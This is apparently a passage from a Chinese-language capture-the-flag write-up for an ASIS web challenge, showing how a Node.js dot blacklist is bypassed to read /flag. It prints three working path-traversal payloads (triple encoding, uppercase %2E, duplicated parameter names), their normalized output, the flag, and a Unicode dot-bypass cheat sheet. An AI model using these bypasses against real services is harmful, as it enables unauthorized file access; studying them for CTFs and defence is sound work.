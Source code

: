 然後我不知道為什麼要把 `Ｅ` 放進黑名單，就算是 unicode bypass 的方法好像也不關這個字元的事情...

（可以參考最後面的 Bonus）

再經過本地端的一些測試之後，我們可以發現有幾種方式可以簡單的 bypass 並且直接取得 flag！（這題真的蠻簡單的）

1. triple encoding
2. 利用傳遞重複參數名稱使物件型別變成 Object 使 indexOf 失效
3. 利用 `%2E`（因為這邊只限制小寫的 `%2e` XD）
```
### console.log for test ###

console.log('Origin:    http://localhost:9001/documents/' + document_name)
console.log('Normalize: ' + normalizeUrl('http://localhost:9001/documents/' + document_name))
console.log('Typeof:    ' + typeof(document_name))
console.log('indexOf(.):' + document_name.indexOf('.'))

######

#1 bypass with triple encoding
Request args：document_name_get=%25%32%45%25%32%45/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#2 bypass with case sensitive
Request args：document_name_get=%252E%252E/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#3 bypass with object
Request args：document_name_get=foo&document_name_get=/../../flag
Origin:    http://localhost:9001/documents/foo,/../../flag
Normalize: http://localhost:9001/flag
Typeof:    object
indexOf(.):-1
```

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`


### Reference

https://blog.ssrf.in/post/nodejs-unicode-encoding-and-ssrf/

https://mathiasbynens.be/notes/javascript-encoding



## Bonus: Node.js dot bypass cheat sheet

```
Decimal	HEX	Character
1	01	Į
2	02	Ȯ
3	03	̮
4	04	Ю
5	05	Ԯ
6	06	خ
7	07	ܮ
8	08	࠮
9	09	म
10	0a	ਮ
11	0b	ମ
12	0c	మ
```
